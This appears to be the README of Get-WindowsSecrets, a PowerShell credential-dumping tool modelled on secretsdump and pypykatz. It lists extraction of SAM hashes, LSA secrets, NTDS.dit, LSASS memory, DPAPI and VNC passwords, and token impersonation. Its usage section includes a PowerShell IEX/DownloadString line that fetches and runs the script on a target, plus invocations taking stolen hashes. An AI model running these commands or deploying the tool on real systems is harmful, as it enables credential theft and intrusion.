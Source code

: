 # MindMap

[MindMap](<https://github.com/YRazafim/Get-WindowsSecrets/blob/main/WindowsSecretsMindMap.pdf>) with pseudo-code for a high-level overview.

# Why

To understand how to dump Windows Secrets internally.<br/>
Powershell implementation of [Secretsdump](<https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py>) and [Pypykatz](<https://github.com/skelsec/pypykatz>).<br/>
The script work (or should work!) on a local Windows machine:
  * Powershell v2 to latest
  * Windows NT 6.0 to latest

It is not intended to bypass AVs and you have to be administrator on the computer.<br/>
The code is commented to understand each process.

Currently It can:<br/>
   * Dump BootKey
   * Compute Hashed BootKey
   * Dump SAM
   * Dump LSA Secrets
      *	$MACHINE.ACC = Machine account password in clear text if computer is joined to a domain<br/>
      * DefaultPassword = Clear text password when autologon is configured for an account<br/>
      * NL$KM = Secret key in clear text for decrypting Cached Domain Credentials<br/>
      * DPAPI_SYSTEM = System User PreKey and System Machine PreKey in clear text for decrypting System User MasterKey files and System Machine MasterKey files (DPAPI)<br/>
      * \_SC\_&lt;ServiceName&gt; = Service account password in clear text<br/>
      * ASPNET_WP_PASSWORD = Password for .NET services in clear text<br/>
      * L$_SQSA_S-&lt;SID&gt; = Clear text answers for Windows Security Questions
   * Dump Cached Domain Credentials
   * Dump DPAPI Secrets<br/>
      * Wi-Fi passwords<br/>
      * <del>Chrome cookies/passwords</del> (Removed because It required loading ChilkatDotNet2 and System.Data.SQLite DLLs). Writed into [Get-ChromeSecrets](<https://github.com/YRazafim/Get-WindowsSecrets/blob/main/Get-ChromeSecrets.ps1>). Dlls are hardcoded into the file<br/>
      * Vault Credential Manager passwords (VPOL and VCRD files)
   * Dump VNC passwords (RealVNC, TightVNC, TigerVNC, UltraVNC)
   * Dump NTDS.dit (Shadow Copy and parsing as ESE format)
   * Dump LSASS (ProcOpen and DupHandle methods)
   * List Session Tokens and Impersonate (ImpersonateLoggedOnUser()/CreateProcessWithToken()/CreateProcessAsUser())

# How it works

Download the script on target and from Powershell:
```
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/YRazafim/Get-WindowsSecrets/main/Get-WindowsSecrets.ps1")
. <Path>\Get-WindowsSecrets.ps1;
Get-WindowsSecrets -Creds <User1>:<Pwd1>:<User2>:<Pwd2>
Get-WindowsSecrets -NTHashes <User>:<NTHash>
Get-WindowsSecrets -Creds <User>:<Pwd> -NTHashes <User1>:<NTHash1>/<User2>:<NTHash2>
Get-WindowsSecrets -SkipDPAPI $True
Get-WindowsSecrets
Get-WindowsSecrets -ImpersonateTokenProcID <ProcID> -Method ImpersonateLoggedOnUser
Get-WindowsSecrets -ImpersonateTokenProcID <ProcID> -Method CreateProcessWithToken
Get-WindowsSecrets -ImpersonateTokenProcID <ProcID> -Method CreateProcessAsUser
```

Creds and NTHashes parameters helped for DPAPI only (If you compromised these secrets for a user).
